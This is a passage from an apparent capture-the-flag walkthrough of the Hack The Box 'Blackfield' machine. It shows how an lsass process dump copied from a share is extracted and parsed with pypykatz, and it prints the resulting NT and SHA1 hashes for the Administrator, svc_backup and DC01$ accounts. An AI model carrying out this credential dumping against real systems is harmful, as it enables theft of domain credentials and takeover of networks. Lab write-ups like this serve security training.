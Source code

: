 ```
-rwxr-xr-x 1 root root  41936098 May 28  2020 lsass.zip                              
-rwxr-xr-x 1 root root  64288607 May 28  2020 mmc.zip                                                  
-rwxr-xr-x 1 root root  13332174 May 28  2020 RuntimeBroker.zip                                        
-rwxr-xr-x 1 root root 131983313 May 28  2020 ServerManager.zip                                        
-rwxr-xr-x 1 root root  33141744 May 28  2020 sihost.zip                     
-rwxr-xr-x 1 root root  33756344 May 28  2020 smartscreen.zip                                          
-rwxr-xr-x 1 root root  14408833 May 28  2020 svchost.zip
-rwxr-xr-x 1 root root  34631412 May 28  2020 taskhostw.zip
-rwxr-xr-x 1 root root  14255089 May 28  2020 winlogon.zip
-rwxr-xr-x 1 root root   4067425 May 28  2020 wlms.zip
-rwxr-xr-x 1 root root  18303252 May 28  2020 WmiPrvSE.zip
..a lot more files
```

The most interesting file here is the lsass.zip. Lsass is a built in Windows service that manages the security policies, the verification of logins, and other authentication related processes. We don't have write access in the share, but we can just copy it out of the share and extract it via `cp lsass.zip /path/to/some/directory && 7z e /path/to/copy`. This nets us a Mini DuMP dump file that we will extract information from using the tool pypykatz (we can install this simply with pip3 install pypykatz).

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# pypykatz lsa minidump lsass.DMP
//I'm going to filter the intersting bits.
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======                                                                       
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c   
        == MSV ==                                  
                Username: DC01$
                Domain: BLACKFIELD                                                                     
                LM: NA                                                                                 
                NT: b624dc83a27cc29da11d9bf25efea796                                                   
                SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368    
```
